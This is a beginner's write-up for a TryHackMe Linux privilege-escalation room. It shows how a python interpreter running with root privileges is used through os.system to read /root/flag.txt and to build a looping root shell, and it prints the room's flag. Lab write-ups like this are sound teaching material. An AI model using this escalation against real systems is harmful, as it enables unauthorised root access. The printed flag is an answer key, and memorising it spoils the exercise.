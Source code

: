 # Linux Privesc Playground - Try Hack Me - https://tryhackme.com/room/privescplayground
 
# This is my first Write-up but a simple one to preform.


# lets get in the machine and open python 
SSH Credentials - user:password

so there is a trick to gain an easy shell with the help of python
first we have to see if python has root premonition so we could exploit it
 
$ python
'''
>>>
'''

great we got python install lets continue.

now we are in the python interactive shell, this is sort of a testing ground for coders
but for us its just a convenient way to get a shell

we only need to init just one library for OS commands
>>> import os

now, lets see if we are root. (euid = 0:root)

>>> geteuid()
'''
0
'''

Grate! python user has root privileges! lets use that ofc...
the syntax should look like this 

>>> os.system("whoami")
'''
root
0
'''

note you can press the arrow-key-up button to toggle previous commands exactly like a regular shell

to get the flag we will do the following

>>> os.system("cat /root/flag.txt")
'''
THM{3asy_f14g_1m40}
'''
 
# -------------------------------------------------------------------------------
# bonus:

do you want to make your life easyer? (that's what python ment for)
 
>>> def A(i):
...     os.system(i)
press return key (enter)


now all we need to do is A("YOUR COMMAND GOES HERE")

>>> A('whoami')
| root
| 0

# Even better:

>>> while True:
...     i = input('CMD: ')
...     os.system(i)
press return key (enter)

'''
CMD: 
'''
now we got ourself a loop and created our-self an easy root shell!

Hye! if you done the bonus why not get in to a python course?